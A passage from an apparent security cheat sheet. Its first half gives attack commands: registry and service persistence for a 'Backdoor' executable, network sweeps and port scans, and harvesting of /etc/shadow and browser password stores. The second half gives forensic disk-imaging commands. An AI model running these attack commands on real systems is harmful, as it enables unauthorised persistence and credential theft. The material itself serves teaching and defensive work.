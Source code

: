 **Windows Persistence:**
```powershell
# Registry persistence
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\temp\backdoor.exe"

# Service persistence
sc create backdoor binpath= "C:\temp\backdoor.exe"
sc config backdoor start= auto
```

### 4. Lateral Movement

**Network Scanning from Compromised Host:**
```bash
# Internal network discovery
for i in {1..254}; do ping -c 1 192.168.1.$i | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1; done

# Port scanning
nc -zv 192.168.1.20 1-1000 2>&1 | grep succeeded
```

**Credential Harvesting:**
```bash
# Linux password hashes
cat /etc/shadow

# Browser saved passwords
ls ~/.mozilla/firefox/*/logins.json
ls ~/.config/google-chrome/Default/Login\ Data

# Configuration files with passwords
grep -r "password" /etc/ 2>/dev/null
```

---

## 🔬 Digital Forensics

### 1. Disk Analysis

**Create Forensic Image:**
```bash
# Create bit-by-bit copy
dd if=/dev/sdb of=/forensics/evidence.img bs=4096 conv=noerror,sync

# Verify integrity
md5sum /dev/sdb > /forensics/original.md5
md5sum /forensics/evidence.img > /forensics/image.md5
```

**Mount and Analyze:**
```bash
# Mount read-only
mkdir /mnt/evidence
mount -o ro,loop /forensics/evidence.img /mnt/evidence

# File system analysis
fsstat /forensics/evidence.img
fls -r /forensics/evidence.img
```
